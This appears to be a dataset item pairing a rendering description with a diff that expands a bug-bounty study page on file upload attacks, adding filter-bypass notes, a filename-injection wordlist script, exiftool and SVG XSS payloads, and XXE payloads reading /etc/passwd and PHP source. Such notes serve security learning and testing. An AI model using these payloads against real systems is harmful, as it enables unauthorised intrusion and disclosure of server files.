

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/file-upload-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 1172 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2130 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update file upload attacks page

````diff
--- a/docs/bug-bounty-guide/file-upload-attacks.md
+++ b/docs/bug-bounty-guide/file-upload-attacks.md
@@ -24,24 +24,92 @@
 | **Client-Side Bypass (firefox shortcuts)** | |
 | `[CTRL+SHIFT+C]` | Toggle Page Inspector and amend front end code (also inspect displayed files after upload to find location) or use burp to alter request |
 | `[CTRL+SHIFT+K]` | Load browser console to review JS functions by typing their name in |
-| **Blacklist Bypass** | |
+| **Blacklist Bypass (Can terst in burp intruder tab(may need to diable URL encoding))** | |
 | `shell.phtml` | Uncommon Extension |
 | `shell.pHp` | Case Manipulation |
 | [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
 | [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
 | [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
-| **Whitelist Bypass** | |
+| **Whitelist Bypass (try fuzzing with web exstentions wordlist first to see what are accepted)** | |
 | `shell.jpg.php` | Double Extension |
-| `shell.php.jpg` | Reverse Double Extension |
+| `shell.php.jpg` | Reverse Double Extension (works when missconfigured webserver will execute because contains php and whitelist allows jpg (may need fuzzing php ext also (php7.jpg etc))) |
 | `%20, %0a, %00, %0d0a, /, .\, ., …` | Character Injection - Before/After Extension |
-| **Content/Type Bypass** | |
+| **Content/Type Bypass (Content-Type header check), fuzz contrent type in burp** | |
 | [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
-| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |
+| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/[Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) (first bytes of a file indicate its MIME-type) |
+
+**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as POST data), in which case we will need to modify the main Content-Type header.
+
+### Creating Character Injection Wordlist
+
+```bash
+for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
+    for ext in '.php' '.phps'; do # can add more php ext here
+        echo "shell$char$ext.jpg" >> wordlist.txt
+        echo "shell$ext$char.jpg" >> wordlist.txt
+        echo "shell.jpg$char$ext" >> wordlist.txt
+        echo "shell.jpg$ext$char" >> wordlist.txt
+    done
+done
+```
+
+### Limiting Content-Type wordlist example
+
+```bash
+wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
+cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
+```
 
 ## Limited Uploads
+
+- Secure filters not exploitable with above techniques
+- Fuzz file extensions to try below techniques
 
 | Potential Attack | File Types |
 |------------------|------------|
 | XSS | HTML, JS, SVG, GIF |
 | XXE/SSRF | XML, SVG, PDF, PPT, DOC |
 | DoS | ZIP, JPG, PNG |
+
+
+### XSS
+
+- Adding XSS payload to an image's metadata:
+
+```bash
+exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
+exiftool HTB.jpg
+```
+
+- Change the image's MIME-Type to text/html, web apps may show it as an HTML document instead of an image, thus the XSS payload would be triggered.
+- Scalable Vector Graphics (SVG) images are XML-based. For this reason, we can modify their XML data to include an XSS payload:
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
+<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
+    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
+    <script type="text/javascript">alert(window.origin);</script>
+</svg>
+```
+
+### XXE
+
+- SVG/XML example:
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
+<svg>&xxe;</svg>
+```
+
+- Another example but to read the web apps source code:
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
+<svg>&xxe;</svg>
+```
+
+- View page source of the upload page to see the returned file from abpve payload.
+- PDF, Word Documents, PowerPoint Documents all include XML elements.
````
